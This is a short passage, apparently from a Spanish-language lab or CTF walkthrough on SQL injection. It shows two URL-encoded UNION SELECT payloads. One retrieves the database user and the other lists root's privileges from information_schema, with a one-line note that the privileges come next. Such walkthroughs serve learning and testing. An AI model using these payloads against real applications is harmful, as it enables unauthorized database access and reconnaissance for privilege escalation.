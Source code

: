 ```
'+UNION+SELECT+NULL,NULL,NULL,USER(),NULL--+-
```

<figure><img src="../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

Ya sabemos el usuario por lo que hay que ver que privilegios tiene.

```
'+UNION+SELECT+NULL,grantee,privilege_type,NULL,NULL+FROM+information_schema.user_privileges+WHERE+grantee%3d"'root'%40'localhost'"--+
```
